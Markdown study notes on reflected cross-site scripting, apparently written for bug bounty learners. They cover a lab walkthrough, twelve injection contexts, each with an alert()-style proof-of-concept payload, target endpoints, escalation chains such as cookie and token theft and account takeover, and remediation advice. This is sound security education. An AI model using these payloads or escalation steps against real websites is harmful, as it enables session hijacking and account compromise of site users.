

# 🐞 Reflected XSS — Enhanced & Real-World Complete Notes

---

## 🔹 Overview

Reflected Cross-Site Scripting (Reflected XSS) occurs when:

- User input is sent to the server  
- The server includes it immediately in the response  
- The browser interprets it as executable code  

Unlike Stored XSS:

- The payload is *not saved* in the database  
- It requires the victim to click a malicious link or submit crafted input  

In real-world attacks, the key challenge is not just finding reflection —  
it is understanding exactly *where the input lands in the response*.

👉 Payload depends entirely on context.

---

## 🔹 What Is This Topic?

Reflected XSS is a *client-side code execution vulnerability* caused by improper output encoding.

### Flow

1️⃣ User sends input (URL, form, header, JSON, etc.)  
2️⃣ Server returns it in response  
3️⃣ Browser renders it as HTML or JavaScript  
4️⃣ Malicious script executes  

> Reflection alone is NOT enough.  
> Context determines exploitability.

### Possible Reflection Contexts

- HTML body  
- Inside tag (h1, p, div)  
- Attribute values  
- Inline event handlers  
- JavaScript strings  
- Script blocks  
- URLs  
- JSON  
- Meta tags  
- Title tag  
- Template literals  
- DOM-based sinks  

---

## 🔹 Lab Walkthrough (Simple & Clear)

1️⃣ Open the lab  
2️⃣ Locate search bar  
3️⃣ Enter random string:

test123

4️⃣ Observe reflection in response:

<h1>You searched for: test123</h1>

5️⃣ Inject payload:
```
<script>alert(1)</script>
```
6️⃣ Script executes  

→ ✅ Lab solved  

But real-world exploitation is rarely this simple.

---

## 🔹 Evidence / Screenshot (SS)



---

# 🌍 Real-World Scenarios (COMPLETE — Context + Payload + Why)

---

## 🟢 1️⃣ Reflection Inside HTML Text (Most Common)

Example:
```
<h1>You searched for: INPUT</h1>
```
Payload:
```
<script>alert(1)</script>
```
*Why it works:*  
Browser parses injected tag as HTML.

*Real-world locations:*

- Search results  
- Login errors  
- 404 pages  
- Payment failure messages  
- Tracking parameters  

---

## 🟢 2️⃣ Inside HTML Attribute

Example:
```
<input value="INPUT">
```
Payload:
```
" onfocus=alert(1) autofocus="
```
Breaks attribute → injects event handler.

*Real-world locations:*

- Form fields  
- Profile editors  
- Search boxes  
- Hidden fields  
- Data attributes  

---

## 🟢 3️⃣ Inside JavaScript String

Example:
```
var q = "INPUT";
```
Payload:
```
";alert(1);//
```
Break string → execute JavaScript.

*Real-world locations:*

- Search query handling  
- Filters  
- Dynamic content rendering  
- Analytics tracking  

---

## 🟢 4️⃣ Inside Inline Event Handler

Example:
```
<button onclick="search('INPUT')">
```
Payload:
```
');alert(1);//
```
*Real-world:*

- Admin dashboards  
- Sorting buttons  
- Filtering components  

---

## 🟢 5️⃣ Inside Script Block Function Call

Example:
```
<script>search("INPUT")</script>
```
Payload:
```
");alert(document.domain);//
```
Very common in:

- Legacy apps  
- E-commerce filters  
- Reporting dashboards  

---

## 🟢 6️⃣ Inside URL (href or src)

Example:
```
<a href="INPUT">
```
Payload:
```
javascript:alert(1)
```
Or:
```
" onclick="alert(1)
```
*Real-world:*

- Redirect parameters  
- Continue URLs  
- Download links  
- OAuth redirects  

---

## 🟢 7️⃣ Reflected Inside JSON Response

Example:
```
{"error":"INPUT"}
```
If frontend uses:
```
innerHTML = response.error
```
Payload:
```
</script><script>alert(1)</script>
```
Very common in:

- SPA applications  
- API error responses  
- React/Vue apps  
- Mobile web apps  

---

## 🟢 8️⃣ Inside Meta Tag

Example:
```
<meta content="INPUT">
```
Payload:
```
"><script>alert(1)</script>
```
Seen in:

- SEO features  
- Social preview metadata  
- OpenGraph tags  

---

## 🟢 9️⃣ Inside Title Tag

Example:
```
<title>INPUT</title>
```
Payload:
```
</title><script>alert(1)</script>
```
Often found in:

- Search pages  
- Dynamic page titles  

---

## 🟢 🔟 Reflected via HTTP Headers

Example headers:
```
- X-Forwarded-Host  
- Referer  
- User-Agent  
```
If reflected in response:

Payload:
```
<script>alert(1)</script>
```
Common in:

- Error pages  
- Debug output  
- Logs rendered in admin panel  

---

## 🟢 1️⃣1️⃣ Template Literal Context

Example:
```
let msg = INPUT;
```
Payload:
```
${alert(1)}
```
Modern JS apps frequently use template strings.

---

## 🟢 1️⃣2️⃣ Reflection in DOM via JS

Server reflects safely, but frontend does:

document.getElementById("msg").innerHTML = param;

This becomes DOM-based XSS.

---

# 🎯 High-Value Endpoints (Bug Bounty Gold)

Always test:

- Search parameters  
- Login error messages  
- Password reset pages  
- OAuth redirect_uri  
- next= parameters  
- filter= parameters  
- sort= parameters  
- Preview features  
- File name displays  
- Payment error messages  
- Support ticket previews  
- Admin dashboards  
- Marketing tracking params  

---

# 🔗 Multi-Chain Real Attacks

---

## 🔥 XSS → Session Theft

- Steal cookies (if not HttpOnly)

---

## 🔥 XSS → Token Exfiltration

Steal:

- JWT tokens  
- CSRF tokens  
- LocalStorage tokens  

---

## 🔥 XSS → Account Takeover

Inject JS to:

- Change email  
- Change password  
- Enable MFA  

---

## 🔥 XSS → CSRF Bypass

Use JavaScript to send authenticated POST requests.

---

## 🔥 XSS → Admin Compromise

Send malicious link to admin.

---

## 🔥 XSS → Phishing Overlay

Inject fake login form.

---

## 🔥 XSS → Data Exfiltration

Read DOM:

- Personal data  
- Billing details  
- Messages  

---

## 🔥 XSS → Stored Pivot

Use reflected XSS to inject payload into stored feature.

---

# 🛡️ Remediation (Developer Fix)

- Escape output based on context  
- Encode HTML, attributes, and JavaScript separately  
- Avoid innerHTML  
- Use textContent  
- Use templating engines with auto-escaping  
- Implement CSP  
- Validate input  
- Avoid string concatenation in JavaScript  
- Set HttpOnly cookies  

---

# 💡 Extra Notes / Pro Hunter Mindset

Reflection ≠ vulnerability  
Execution = vulnerability  

Always ask:

- Where does my input land?  
- Is it HTML, JS, attribute, URL, or JSON?  
- Can I break out of context?  

Pro techniques:

- Break quotes first  
- Try closing tags  
- Inspect raw response  
- Use Burp search  
- Look for hidden reflections  
- Test headers  
- Test encoded payloads  
- Test each parameter separately  
- Think like a frontend developer  

---

# 🧠 Ultimate Mental Model

Find input  
→ Find reflection  
→ Identify context  
→ Break context  
→ Execute payload  
→ Escalate impact  

---
